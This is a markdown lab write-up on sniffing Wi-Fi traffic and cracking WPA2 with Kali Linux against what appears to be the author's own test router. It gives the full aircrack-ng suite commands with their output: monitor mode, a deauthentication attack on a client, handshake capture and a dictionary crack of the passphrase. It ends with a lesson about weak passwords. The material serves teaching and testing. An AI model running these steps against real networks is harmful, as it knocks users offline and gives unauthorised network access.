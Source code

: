 ```yaml
---
title: Wireless sniffing
---
```


# Wireless sniffing

1. Goal
    * Collect and analyze wireless traffic.

2. Used hardware
    * Alfa AWUS036NHA (Long-range USB Adapter)
    * TL-MR3020 (Porable 3G/4G Wireless N Router)
    * 1 laptop with Kali Linux
    * 1 device with a wireless connection (Smartphone, tablet, ...)

3. Used software
    * Kali Linux (2019.4)

4. Setup

![Success](./assets/setup.png)

5. Getting started
    1. Display the list of available adapters (Kali Linux)
    
    ```
    root@kali:~# airmon-ng

    PHY     Interface       Driver          Chipset

    phy0    wlan0           iwlwifi         Intel Corporation WiFi Link 5100
    phy1    wlan1           ath9k_htc       Qualcomm Atheros Communications AR9271 802.11n

    root@kali:~#
    ```
    
    2. Monitor mode allows a wireless network interface controller to monitor all traffic received on a wireless channel.
        1. Kill the network managers. (To Avoid interference with other tools)
        ```
        root@kali:~# airmon-ng check kill

        Killing these processes:

        PID Name
        626 wpa_supplicant

        root@kali:~#
        ```
        2. Put the adapter in monitor mode
        ```
        root@kali:~# airmon-ng start wlan1

        PHY     Interface       Driver          Chipset

        phy0    wlan0           iwlwifi         Intel Corporation WiFi Link 5100
        phy1    wlan1           ath9k_htc       Qualcomm Atheros Communications AR9271 802.11n

                (mac80211 monitor mode vif enabled for [phy1]wlan1 on [phy1]wlan1mon)
                (mac80211 station mode vif disabled for [phy1]wlan1)

        root@kali:~#
        ```
        3. Scan the environment
        ```
        root@kali:~# airodump-ng wlan1mon

        CH 11 ][ Elapsed: 36 s ][ 2019-12-23 18:58

        BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

        68:FF:7B:45:A5:88  -39       69        0    0   1  270  WPA2 CCMP   PSK  TP-Link_TEST
        3A:43:3D:4B:CE:5E  -55       51        0    0   6  130  WPA2 CCMP   MGT  TelenetWiFree
        04:BF:6D:22:9B:6E  -83       15        0    0   6  130  WPA2 CCMP   PSK  Wireless
        0A:19:70:AA:AB:25  -86        9        0    0   1  54e. WPA2 CCMP   MGT  Proximus Public Wi-Fi
        1E:B0:44:3B:F6:7D  -89        2        0    0   1  130  WPA2 CCMP   PSK  Guest-Orange-bf678
        AC:22:05:AC:81:93  -90        5        0    0   1  130  WPA2 CCMP   PSK  MyBike
 
        root@kali:~#
        ```
    3. Hacking WPA2

        [More information about Wi-Fi Protected Access](https://en.wikipedia.org/wiki/Wi-Fi_Protected_Access)
  
        1. Capture data from a specified BSSID. We are seeking for the MAC address of the victim.
        ```
        root@kali:~# airodump-ng --bssid 68:FF:7B:45:A5:88 -c 1 -w tkip wlan1mon

        CH  1 ][ Elapsed: 1 min ][ 2019-12-23 19:03

        BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

        68:FF:7B:45:A5:88  -27  93      995       45    0   1  270  WPA2 CCMP   PSK  TP-Link_TEST

        BSSID              STATION            PWR   Rate    Lost    Frames  Probe

        68:FF:7B:45:A5:88  C0:33:5E:DD:CA:FD  -37    1e- 1      0       11

        root@kali:~#
        ```
        2.While capturing data in one terminal, deautenticate the victim in a second terminal.
        ```
        root@kali:~# aireplay-ng --deauth 2 -a 68:FF:7B:45:A5:88 -c C0:33:5E:DD:CA:FD wlan1mon
        19:10:10  Waiting for beacon frame (BSSID: 68:FF:7B:45:A5:88) on channel 1
        19:10:11  Sending 64 directed DeAuth (code 7). STMAC: [C0:33:5E:DD:CA:FD] [61|66 ACKs]
        19:10:11  Sending 64 directed DeAuth (code 7). STMAC: [C0:33:5E:DD:CA:FD] [60|64 ACKs]
        root@kali:~#
        ```
        In the first terminal Airodump-ng should display 'WPA handshake'
        ```
        root@kali:~# airodump-ng --bssid 68:FF:7B:45:A5:88 -c 1 -w ccmp  wlan1mon

        CH  1 ][ Elapsed: 42 s ][ 2019-12-23 19:40 ][ WPA handshake: 68:FF:7B:45:A5:88

        BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

        68:FF:7B:45:A5:88  -28  71      380       13    0   1  270  WPA2 CCMP   PSK  TP-Link_TEST

        BSSID              STATION            PWR   Rate    Lost    Frames  Probe

        68:FF:7B:45:A5:88  C0:33:5E:DD:CA:FD  -42    1e- 1e     0       19

        root@kali:~#
        ```
        3. Resolving the PSK. We make use of a list of known passwords.
        ```
        root@kali:~# aircrack-ng  -w /usr/share/john/password.lst ccmp-01.cap
        Opening ccmp-01.capease wait...
        Read 988 packets.

            #  BSSID              ESSID                     Encryption

            1  68:FF:7B:45:A5:88  TP-Link_TEST              WPA (1 handshake)

        Choosing first network as target.

        Opening ccmp-01.capease wait...
        Read 988 packets.

        1 potential targets

                                      Aircrack-ng 1.5.2

            [00:00:00] 428/649 keys tested (1267.84 k/s)

            Time left: 0 seconds                                      65.95%

                                   KEY FOUND! [ NotSecure ]

            Master Key     : 36 D7 58 30 73 6D C6 14 43 22 E9 94 75 C8 D7 66
                             6D D3 E9 5C A0 32 42 68 9B 66 34 5B 98 83 4E 22

            Transient Key  : 64 3A 8D C6 6A ED AD 65 58 4B 52 04 29 D8 01 A0
                             8D C3 E7 F2 E7 35 40 BE 30 9C A1 F0 A2 04 6B 81
                             D7 8A 35 79 4D 38 86 EB 0F 1E BB 5D FB 0B ED 6F
                             F3 67 A4 EC 19 9E D0 79 5F C5 AF CB FA 62 DC D4

            EAPOL HMAC     : 6F 1D 9E 64 3E 39 5C 16 55 FC CB B0 F7 B0 6B 77
        root@kali:~#
        ```
6. Conclusion
    
    Pre-shared key WPA and WPA2 remain vulnerable to password cracking attacks if users rely on a weak password or passphrase.